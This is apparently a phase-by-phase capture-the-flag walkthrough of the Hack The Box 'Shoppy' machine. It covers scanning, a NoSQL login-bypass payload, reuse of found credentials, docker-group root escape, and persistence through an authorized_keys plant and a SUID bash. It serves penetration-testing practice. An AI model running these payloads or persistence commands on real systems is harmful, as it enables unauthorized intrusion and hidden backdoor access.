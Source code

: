 Here’s your organized and markdown-formatted notes for **HTB: Shoppy** 🛒💥 – structured by phase, with all key commands and findings for your HTB arsenal:

---

# 🛍️ HTB: Shoppy – Command & Exploitation Guide

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.180
nmap -p 22,80,9093 -sCV 10.10.11.180
```

### Hosts File
```bash
echo "10.10.11.180 shoppy.htb mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

### Subdomain Fuzzing
```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169
```

### Feroxbuster
```bash
feroxbuster -u http://shoppy.htb
```

---

## 🔑 NoSQL Auth Bypass

### Target: `/login`
**Bypass Payload (URL-Encoded or Raw)**:
```bash
username=admin'||'a'=='a&password=admin
```

**Headers**:
```http
Content-Type: application/x-www-form-urlencoded
```

### Dump Users via Injection:
```bash
username=admin' || 1==1 //&password=123
```

### Decode MD5 Hash on [CrackStation](https://crackstation.net)

---

## 💬 Mattermost Access

### Use Found Creds
- **User**: josh
- **Pass**: `remembermethisway`

### Locate SSH Creds for `jaeger` in "Deploy Machine" Channel:
- `user: jaeger`
- `pass: Sh0ppyBest@pp!`

---

## 🔐 SSH Access

```bash
sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
```

---

## 🧑‍💼 PrivEsc to Deploy

### Sudo Check
```bash
sudo -l
```

### Path Found
```bash
sudo -u deploy /home/deploy/password-manager
```

### Reverse Engineering

**Pull Binary:**
```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

**Extract Password:**
Use Ghidra OR:
```bash
strings -el password-manager
```

**Result**:
```text
Password: Sample
```

**Use it:**
```bash
sudo -u deploy /home/deploy/password-manager
# --> Deploying@pp!
```

**Switch User:**
```bash
su deploy
```

---

## 🐳 Root via Docker Group

### Confirm Docker Access
```bash
id
docker images
```

### Method 1: Mount Host Filesystem (Basic)
```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

### Method 2: chroot Escape to Host (Recommended)
```bash
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

### Get Flag
```bash
cat /root/root.txt
```

---

## 🪝 Optional Root Persistence

### SSH Access via Public Key (From Container)
```bash
mkdir /root/.ssh
echo "ssh-ed25519 AAAA...user@host" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### Or Make Bash SUID
```bash
chmod 4777 /bin/bash
bash -p
```

---

## 🔬 Beyond Root: NoSQL Injection Logic

### Original Code Equivalent:
```js
this.username == 'admin' || 'a'=='a' && this.password == 'pass'
```

### Precedence Breakdown:
```text
true || (true && false) => true
```